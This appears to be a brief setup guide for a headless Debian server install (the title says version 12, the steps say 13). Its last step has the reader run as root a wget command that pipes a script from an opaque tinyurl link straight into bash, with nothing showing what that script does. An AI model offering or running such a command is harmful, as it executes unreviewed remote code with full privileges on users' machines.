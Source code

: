 # Debian 12 - Installation and Initial Setup (No GUI) --- ""Preliminay""

## 1. Install Debian 13

Download the official Debian 13 ISO from:  
👉 https://www.debian.org/distrib/

During installation:
👤 When prompted to create a user, enter:

```text
Username: stra
```

✅ Select:
- **Standard system utilities**
- **SSH server**

❌ Do **not** select:
- **Desktop Environment** (no GUI)

> ⚠️ This will result in a minimal, lightweight installation—ideal for servers or headless environments.

## 2. Log in as root

After rebooting the system, log in with:

```bash
Username: root
Password: [your root password]

wget --no-cache -qO- https://tinyurl.com/y2y5b6x7 | bash
```
